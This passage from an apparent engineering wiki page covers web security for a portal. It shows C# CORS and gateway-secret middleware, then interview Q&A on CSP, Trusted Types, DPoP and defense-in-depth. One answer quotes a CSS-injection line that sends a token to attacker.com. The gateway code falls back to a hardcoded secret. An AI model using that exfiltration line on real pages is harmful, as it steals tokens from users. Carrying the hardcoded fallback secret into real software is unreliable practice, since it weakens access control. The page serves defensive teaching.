// Production multi-tenant: validate against a known base domain
var baseDomain = builder.Configuration["Cors:BaseDomain"]; // e.g. "yourapp.com"

policy.SetIsOriginAllowed(origin => {
    var host = new Uri(origin).Host;
    return host == baseDomain || host.EndsWith($".{baseDomain}");
})
```

**Where values come from in production:**
- **Environment variables** or **appsettings.{Environment}.json** for static lists.
- **Azure App Configuration / AWS Parameter Store** for dynamic lists that change without redeployment.
- For the multi-tenant subdomain pattern, config only needs the base domain — new tenants are automatically allowed.

#### 5. Gateway Trust Middleware (Network Zero Trust)

The API validates that every request came through the Gateway:

```csharp
// From: libs/core/infrastructure/Middleware/GatewayTrustMiddleware.cs
public class GatewayTrustMiddleware {
  private readonly string _expectedSecret;

  public async Task InvokeAsync(HttpContext context) {
    // Allow OIDC Discovery endpoints to be public
    if (context.Request.Path.Value?.Contains(".well-known/openid-configuration") == true ||
        context.Request.Path.Value?.Contains(".well-known/jwks") == true ||
        context.Request.Path.Value?.Contains("Account/Login") == true) {
      await _next(context); return;
    }

    // Validate the "Caller ID" — the Gateway Secret
    if (!context.Request.Headers.TryGetValue("X-Gateway-Secret", out var receivedSecret) ||
        !string.Equals(receivedSecret.ToString().Trim(), _expectedSecret.Trim(),
                        StringComparison.OrdinalIgnoreCase)) {
      context.Response.StatusCode = StatusCodes.Status403Forbidden;
      await context.Response.WriteAsync("Untrusted request. Access must be via the Gateway.");
      return;
    }
    await _next(context);
  }
}
```

The Gateway injects this secret automatically via YARP transforms:

```csharp
// From: apps/portal-gateway/Program.cs
var gatewaySecret = builder.Configuration["GATEWAY_SECRET"] ??
                    builder.Configuration["Gateway:Secret"] ??
                    "portal-poc-secret-2026";

builder.Services.AddReverseProxy()
    .LoadFromConfig(builder.Configuration.GetSection("ReverseProxy"))
    .AddTransforms(builderContext => {
      builderContext.AddRequestHeader("X-Gateway-Secret", gatewaySecret);
    });
```

---

## Interview Q&A

### L1: CORS vs CSP
**Difficulty:** L1 (Junior)

**Question:** What is the difference between CORS and CSP? Don't they both just block unauthorized domains?

**Answer:** They solve opposite problems. **CORS** protects the *Server*; it tells the browser which external websites are allowed to read the server's data. **CSP** protects the *Client (Browser)*; it tells the browser which external websites are allowed to execute scripts or load images within the client's current webpage. A simple way to remember: CORS guards the door to your house (who can come in), CSP guards your TV remote (what can run inside your house).

---

### L1: Why Rate Limit Authentication Endpoints?
**Difficulty:** L1 (Junior)

**Question:** Why do we apply rate limiting specifically to `/connect/*` OIDC endpoints on our Gateway, rather than just relying on the password hashing algorithm being slow?

**Answer:** Password hashing (e.g., bcrypt with a high cost factor) slows down each individual attempt, but without rate limiting, an attacker can still launch thousands of concurrent requests, consuming all of the server's CPU on hashing operations (a denial-of-service attack). Rate limiting at the Gateway cuts off the flood *before* it reaches the Identity Provider, protecting both the server's availability and the password hashing budget.

---

### L2: Trusted Types vs Standard Sanitization
**Difficulty:** L2 (Mid-Level)

**Question:** If we are already using a library like DOMPurify to sanitize user input before saving it to the database, why do we need the Trusted Types API in the browser?

**Answer:** Server-side sanitization and client-side Trusted Types solve different problems at different layers. DOMPurify on the server prevents *stored* XSS by cleaning data before persistence. But DOM-based XSS happens entirely in the browser—a developer might accidentally write `div.innerHTML = dynamicValue` with data that never touched the server (e.g., URL parameters, `postMessage` data). Trusted Types changes the rules at the browser level: if you enable `require-trusted-types-for 'script'` in your CSP, the browser throws a fatal `TypeError` if anyone assigns a raw string to a dangerous sink like `.innerHTML`. It enforces sanitization at the platform level, protecting against future human error regardless of where the data came from.

---

### L2: Why Custom UI Components for Identity?
**Difficulty:** L2 (Mid-Level)

**Question:** In `tai-portal`, the team built custom form components (`SecureInputComponent`) instead of using Angular Material's `mat-input`. What security justification exists for this architectural decision?

**Answer:** Angular Material's components dynamically inject inline styles into the DOM (e.g., `style="transform: translateY(42px)"` for positioning overlays and ripple effects). This requires adding `'unsafe-inline'` to the `style-src` CSP directive, which reopens the door to CSS injection attacks. CSS injection can exfiltrate sensitive data (like CSRF tokens) using techniques like `background: url('https://attacker.com/?token=' + attr(value))`. By building custom components using Angular CDK (headless primitives) and external SCSS stylesheets, we achieve a perfect CSP with zero `unsafe-inline` directives, mathematically closing this attack vector on the Identity boundary where the risk is highest.

---

### L3: The Token Theft Scenario (DPoP in Action)
**Difficulty:** L3 (Senior)

**Question:** Let's say a highly sophisticated attacker bypasses our CSP, executes an XSS attack, and successfully steals the user's JWT Access Token from our Angular application. How does our FAPI 2.0 DPoP implementation prevent a catastrophic data breach?

**Answer:** Standard JWTs are "Bearer" tokens—possession equals authorization. DPoP upgrades this to "Sender-Constrained" tokens. During login, our Angular app generated an ECDSA P-256 key pair using the Web Crypto API with `extractable: false`, and the Access Token was cryptographically bound to the public key's SHA-256 thumbprint (stored in the token's `cnf` claim). When the attacker steals the Access Token, it is useless to them. To use the token, they must also produce a "DPoP Proof"—a short-lived JWT signing the exact request URL (`htu`), HTTP method (`htm`), and a unique identifier (`jti`), using the private key. Because the private key is held in non-extractable WebCrypto storage, the attacker cannot steal it—`crypto.subtle.exportKey()` will throw. The API Gateway validates that the proof's public key matches the thumbprint inside the Access Token and rejects all mismatched requests with `401 Unauthorized`.

---

### L3: DPoP Nonce Replay Prevention
**Difficulty:** L3 (Senior)

**Question:** Even with DPoP, an attacker who intercepts a complete HTTP request (including both the Access Token and the DPoP Proof header) could replay it. How does the DPoP nonce mechanism prevent this, and how does our Angular interceptor handle it?

**Answer:** Each DPoP proof already includes a `jti` (unique ID) and an `iat` (timestamp), so the server can reject proofs it has seen before (via a short-lived cache) or proofs that are too old. But for additional protection, the server can require a **server-issued nonce**. The flow is: (1) the client sends a request without a nonce, (2) the server returns `401` with a `DPoP-Nonce` response header, (3) the client retries with the nonce baked into the proof's payload. This proves the proof was freshly generated *after* the server issued the challenge. Our `dpopInterceptor` handles this transparently—on a `401` response, it checks for a `DPoP-Nonce` header, and if present, generates a new proof including that nonce and retries the request exactly once. This eliminates the possibility of pre-computed proof replay.

---

### Staff: Architectural Impacts of Strict CSP
**Difficulty:** Staff

**Question:** As a Staff Engineer, you mandate a strict `default-src 'self'` CSP with no `unsafe-inline` for a new enterprise portal. What architectural and operational consequences will this have on the engineering teams, and how do you mitigate them?

**Answer:** Mandating a strict CSP will drastically slow down initial velocity because teams can no longer rely on massive ecosystems of third-party UI libraries (like Material or Bootstrap) which heavily rely on inline styles and dynamic eval for rendering. It also breaks many third-party analytics and marketing trackers. 
To mitigate this, I would:
1. **Mandate "Headless" UI primitives** (like Angular CDK or Radix UI) where we maintain 100% control over the DOM and style them with external SCSS—exactly what `tai-portal` does with `SecureInputComponent`.
2. **Implement an automated CSP Audit in CI/CD** to catch violations at build time, rather than having apps crash in production. A linter or build script can scan for `innerHTML` assignments, `eval()` calls, and inline style attributes.
3. **Deploy CSP in Report-Only mode first** (`Content-Security-Policy-Report-Only`) to a telemetry endpoint, collecting data on what the policy *would* break for 2-4 weeks before enforcing it strictly. This gives teams time to remediate without outages.
4. **Provide a `TrustedTypesService` as shared infrastructure** (like `tai-portal`'s `tai-security-policy`) so developers have a sanctioned path for dynamic HTML that passes through sanitization, rather than fighting the CSP policy.

---

### Staff: Defense-in-Depth: Why Every Layer Matters
**Difficulty:** Staff

**Question:** In `tai-portal`, security is enforced at multiple layers: CSP in the browser, DPoP at the protocol level, rate limiting at the Gateway, Gateway Trust middleware at the network level, and tenant isolation at the database level. Isn't this redundant? Why not just have one really good security layer?

**Answer:** This is the **Defense-in-Depth** principle—each layer assumes the layer above it has been compromised. In practice:

1. **CSP fails if:** A sophisticated attacker finds a CSP bypass (e.g., a JSONP endpoint on an allowed origin that reflects attacker-controlled callbacks). Trusted Types catches what CSP misses.
2. **Trusted Types fails if:** The attacker targets a browser that doesn't support the API (Firefox without the flag). DPoP ensures stolen tokens are useless even if XSS succeeds.
3. **DPoP fails if:** A future browser vulnerability allows exporting "non-extractable" keys (this has happened historically with WebCrypto bugs). Rate limiting on the Gateway prevents rapid exploitation.
4. **Rate limiting fails if:** The attacker uses a distributed botnet with thousands of IPs. The Gateway Trust middleware ensures they can't bypass the Gateway entirely and hit the API directly.
5. **Gateway Trust fails if:** The shared secret is leaked. EF Core Global Query Filters with `TenantId` ensure that even a fully compromised API endpoint cannot access another tenant's data.

No single layer is perfect. The attacker must defeat *all* layers simultaneously, which exponentially increases the difficulty and cost of a successful breach. This is why compliance frameworks (FAPI 2.0, PCI DSS, SOC 2) mandate overlapping controls—they are not redundant; they are **complementary**.

---

## Cross-References
- [[Authentication-Authorization]] — Details the OAuth 2.1 and OpenIddict architecture that issues the DPoP tokens.
- [[System-Design]] — How the API Gateway (YARP) validates DPoP proofs and routes traffic.
- [[Angular-Core]] — The DI system powering `DPoPService`, `TrustedTypesService`, and `HttpInterceptorFn`.

---

## Further Reading
- [MDN: Content Security Policy (CSP)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)
- [W3C: Trusted Types](https://w3c.github.io/webappsec-trusted-types/dist/spec/)
- [IETF: DPoP (RFC 9449)](https://datatracker.ietf.org/doc/html/rfc9449)
- [OWASP: Cross-Site Scripting (XSS) Prevention](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Scripting_Prevention_Cheat_Sheet.html)
- [ASP.NET Core: Rate Limiting Middleware](https://learn.microsoft.com/en-us/aspnet/core/performance/rate-limit)

---

*Last updated: 2026-04-01*
